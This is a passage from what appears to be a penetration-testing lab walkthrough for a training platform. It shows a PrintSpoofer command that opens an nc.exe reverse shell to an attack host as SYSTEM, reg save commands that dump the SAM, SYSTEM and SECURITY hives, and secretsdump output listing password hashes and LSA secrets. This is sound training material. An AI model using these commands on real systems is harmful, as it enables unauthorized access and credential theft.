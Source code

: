 <p>Once uploaded, we can start a <code>Netcat</code> listener on the <code>dmz01</code> host and run the following command to obtain a reverse shell as <code>NT AUTHORITY\SYSTEM</code>:</p>
<pre><code class="language-shell-session">c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"
</code></pre>
<p>We execute the command and get a reverse shell almost instantly.</p>
<pre><code class="language-shell-session">root@dmz01:/tmp# nc -lnvp 443

Listening on 0.0.0.0 443
Connection received on 172.16.8.20 58480
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system

C:\Windows\system32&gt;hostname
hostname
ACADEMY-AEN-DEV01
</code></pre>
<p>From here, we can perform some post-exploitation and manually retrieve the contents of the SAM database and with it, the local administrator password hash.</p>
<pre><code class="language-cmd-session">c:\DotNetNuke\Portals\0&gt; reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0&gt; reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0&gt; reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE

The operation completed successfully.
</code></pre>
<p>Now we can once again modify the allowed file extensions to permit us to down the <code>.SAVE</code> files. Next, we can go back to the <code>File Management</code> page and download each of the three files to our attack host.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/163/download_sam.png"/></p>
<p>Finally, we can use <code>secretsdump</code> to dump the SAM database and retrieve a set of credentials from LSA secrets.</p>
<pre><code class="language-shell-session">[!bash!]$ secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:&lt;redacted&gt;:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3e002600200046005a003000460021004b00460071002e002b004d0042005000480045002e006c00280078007900580044003b0050006100790033006e002a0047004100590020006e002d00390059003b0035003e0077005d005f004b004900400051004e0062005700440074006b005e0075004000490061005d006000610063002400660033003c0061002b0060003900330060006a00620056006e003e00210076004a002100340049003b00210024005d004d006700210051004b002e004f007200290027004c00720030005600760027004f0055003b005500640061004a006900750032006800540033006c00